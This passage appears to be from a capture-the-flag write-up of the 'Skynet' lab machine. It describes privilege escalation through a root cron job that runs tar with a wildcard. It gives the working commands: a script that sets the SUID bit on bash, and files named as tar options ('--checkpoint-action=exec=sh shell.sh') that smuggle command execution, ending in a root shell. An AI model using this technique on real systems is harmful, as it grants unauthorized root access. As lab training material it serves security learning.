 ### Privilege Escalation

Looking in the `backups` folder, we see a script called backup.sh that is owned by root:

```
www-data@skynet:/home/milesdyson$ cd backups
www-data@skynet:/home/milesdyson/backups$ ls
backup.sh  backup.tgz
www-data@skynet:/home/milesdyson/backups$ ls -la backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 backup.sh
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
This script is interesting to us because it is using `tar`, and is using the wildcard operator.

We can also confirm this script is being run as a cronjob by root every minute:

```
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
<SNIP>
```

Looks like first the script changes the directory to `/var/www/html` and then runs `tar` backing up all the contents to milesdyson's home directory in a zip file.

So to exploit this let's navigate to `var/www/html` and create a file called shell.sh, which will put the SUID bit on bash:

```
www-data@skynet:/$ cd /var/www/html
www-data@skynet:/var/www/html$ cat >> shell.sh
/bin/chmod 4755 /bin/bash
```

Next we can issue the following commands:

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Waiting one minute later we can drop into our root shell:

```
www-data@skynet:/var/www/html$ /bin/bash -p
bash-4.3# whoami
root
```
